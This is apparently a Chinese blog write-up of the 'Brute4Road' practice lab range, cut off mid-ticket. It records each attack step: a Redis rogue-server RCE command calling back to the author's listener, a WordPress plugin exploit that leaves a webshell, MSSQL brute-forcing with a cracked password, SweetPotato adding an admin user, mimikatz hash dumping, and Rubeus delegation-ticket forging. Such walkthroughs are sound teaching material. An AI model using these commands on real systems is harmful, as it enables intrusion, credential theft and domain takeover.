# 内网渗透之春秋云镜（3）-Brute4Road - 先知社区

内网渗透之春秋云镜（3）-Brute4Road

- - -

## flag01

### 外网打点

先用 fscan 扫一下

```plain
___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 39.101.188.102  is alive
[*] Icmp alive hosts len is: 1
39.101.188.102:6379 open
39.101.188.102:22 open
39.101.188.102:21 open
39.101.188.102:80 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle: http://39.101.188.102     code:200 len:4833   title:Welcome to CentOS
[+] ftp://39.101.188.102:21:anonymous
   [->]pub
```

发现有个 ftp 匿名登录，但是只有一个空的 pub 文件夹

同时发现开放 6379 有 redis 的未授权，redis 主从复制 rce

工具：[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

把大佬的工具发现在自己的 vpn 上面，

```plain
python3 redis-rogue-server.py --rhost 39.101.188.102 --rport 6379 --lhost 43.xxx.xxx.xxx --lport 6667 --exp exp.so
```

注意要将监听端口开放

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004101-abbc3064-ca8e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004105-ae870346-ca8e-1.png)

成功谈到 shell

```plain
python -c 'import pty;pty.spawn("/bin/bash")'
```

放一个标准化的 shell 看起来舒服点

发现在/home/redis/flag 有 flag01 但是我们没有读写权限

### 提取过程

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004112-b26876b6-ca8e-1.png)

发现可以用 base64 提权

[base64 | GTFOBins](https://gtfobins.github.io/gtfobins/base64/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004118-b5f15a5a-ca8e-1.png)

```plain
base64 '/home/redis/flag/flag01' | base64 --decode
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004130-bcffaee6-ca8e-1.png)

## flag02

我们在自己的 vpn 起给 web 服务然后我们将要用到的工具 wget 传过去（fscan 和 vemon 代理

先用 fscan 扫一下内网

```plain
[redis@centos-web01 redis]$ ./fscan -h 172.22.2.1/24
./fscan -h 172.22.2.1/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.2.34     is alive
(icmp) Target 172.22.2.3      is alive
(icmp) Target 172.22.2.7      is alive
(icmp) Target 172.22.2.16     is alive
(icmp) Target 172.22.2.18     is alive
[*] Icmp alive hosts len is: 5
172.22.2.7:6379 open
172.22.2.16:1433 open
172.22.2.18:445 open
172.22.2.16:445 open
172.22.2.3:445 open
172.22.2.34:445 open
172.22.2.18:139 open
172.22.2.7:21 open
172.22.2.16:139 open
172.22.2.3:139 open
172.22.2.34:139 open
172.22.2.16:135 open
172.22.2.34:135 open
172.22.2.3:135 open
172.22.2.16:80 open
172.22.2.18:80 open
172.22.2.18:22 open
172.22.2.7:80 open
172.22.2.7:22 open
172.22.2.3:88 open
[*] alive ports len is: 20
start vulscan
[*] NetInfo:
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] NetInfo:
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] NetInfo:
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] WebTitle: http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS
[*] WebTitle: http://172.22.2.16        code:404 len:315    title:Not Found
[*] NetBios: 172.22.2.34     XIAORANG\CLIENT01              
[*] NetBios: 172.22.2.3      [+]DC DC.xiaorang.lab               Windows Server 2016 Datacenter 14393 
[*] 172.22.2.3  (Windows Server 2016 Datacenter 14393)
[*] 172.22.2.16  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.2.18     WORKGROUP\UBUNTU-WEB02         
[+] ftp://172.22.2.7:21:anonymous 
   [->]pub
[*] WebTitle: http://172.22.2.18        code:200 len:57738  title:又一个 WordPress 站点
```

这里我们概况一下我们要打的目标

```plain
172.22.2.3 DC
172.22.2.7  本机 
172.22.2.16 MSSQLSERVER
172.22.2.18  WordPress 站点
172.22.2.34  XIAORANG\CLIENT01
```

代理这里我们使用 vemon

[Venom 工具的使用（内网渗透 多级代理）-CSDN 博客](https://blog.csdn.net/weixin_45859850/article/details/119813079)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004141-c4103ee4-ca8e-1.png)

成功代理出来

```plain
proxychains wpscan --url http://172.22.2.18/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004154-cb9400f6-ca8e-1.png)

wordpress 插件有洞子

[https://github.com/biulove0x/CVE-2021-25003](https://github.com/biulove0x/CVE-2021-25003)

```plain
┌──(root㉿kali)-[~/Desktop/CVE-2021-25003-main]
└─# proxychains python3 WpCargo.py -t http://172.22.2.18/
```

run 完了之后生成攻击路径

```plain
http://172.22.2.18/wp-content/wp-conf.php?1=system
```

这里蚁剑挂代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004206-d2d7cb5e-ca8e-1.png)

用户名密码哪里不用管端口是代理端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004212-d6549da2-ca8e-1.png)

我们咱 wp-config.php 找到数据库的用户名和密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004218-d9f20332-ca8e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004223-dcf57ee2-ca8e-1.png)

## flag03

我们看到在这个数据库的下面存在类似字典的表

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004233-e30a5104-ca8e-1.png)

我们回顾一下上面我们要攻击的靶机

```plain
172.22.2.3 DC
172.22.2.7  拿下
172.22.2.16 MSSQLSERVER
172.22.2.18  拿下
172.22.2.34  XIAORANG\CLIENT01
```

那就拿这个字典爆破 172.22.2.16

```plain
fscan -h 172.22.2.16 -m mssql -pwdf pwd.txt
```

```plain
sa ElGNkOiC
```

拿 MDUT 链接，为了方便后面全挂全局代理（proxifer），sweetpotato 提权，开 Ole 上传 sweetpotato.exe

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004241-e75912c2-ca8e-1.png)

test 一下执行成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004247-eb0865a8-ca8e-1.png)

rdp

```plain
C:/Users/Public/sweetpotato.exe -a "net user  test 123456 /add"
C:/Users/Public/sweetpotato.exe -a "net localgroup administrators test /add"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004256-f0aba984-ca8e-1.png)

## flag04

systeminfo 一下发现域

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004310-f9182264-ca8e-1.png)

用 mimikatz 读取域用户哈希

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004317-fd40e59c-ca8e-1.png)

### 约束委派攻击

MSSQLSERVER 配置了到 DC LDAP 和 CIFS 服务的约束性委派，用 Rubeus 申请自身的服务票据，用通过 S4U 伪造 ST

首先用 Rubeus.exe 申请自身的服务票据

```plain
Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:4250ef4c15bfeb685371970e1be00b85 /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```

得到票据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004323-00b48e5e-ca8f-1.png)

注入票据

```plain
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE1btfneTGYuYI+fnwsBbpz9d80968QVyp/krgzq88XpZdXIydeuCa0Ox+Y2XeHdywDbZ8TEC2/PPQ7XTj4xkQ5Se/iY6tlhKKUozG8T0y0+6E1YQzAlDsB0qCPdg5V4sptRaK/mD+K8x3lr6IOUAZLPdngf4yW+zPleZWKLoVpWiDE9GNh+1h6XLacLFanztFoaB/yTetP2GuqJ0U2edNPwYVgn+K3y4klqfjQnpAxA61vQrgQSD2Rcl4JqRSVFUary3JKF+Pf7IMXApZGz25NqmPyTMkfBXlLFDr/DuQzh+3Fd2yxCtvw6MOzZwREQ9SKQVFGg8VesAOkVXQd9twFD7mU8wWYnryqHjJUc+B/VD/MCl2mYbpm7UdVHOLtIY52dP613S7bnol7R8E+MvmFbsRsRFQbl7OCzTPtYdDXMMXWtQydVIgmaVQk1EQlQ4KYCpLpaYrTzvtg841iO66Zt2zM97K0mpGVQBX+KRun8+0QIsdynifLvMtFnFE+MkjePEhvGAa6YkZhH0XlNtRUA4caXBg+KNr0/Cgr/h9xOcDXIJA40+E5XS0/NjOKNHKIlZs3Nf9g0D5CI5vEncQisucBDp0fmVVylY1oMFzwhStWRszTwtQ+tax1GMjmM8UewFxLcxmhn6nBVQMkLkJ5vaQbSz+8Ko9ldCpEV3ShDi/w02lMGxJFfwQeTqWquFlhFuR506yOHlX6sQPIq7Q2R4LNLoDcHRFr+xs826u7Xa/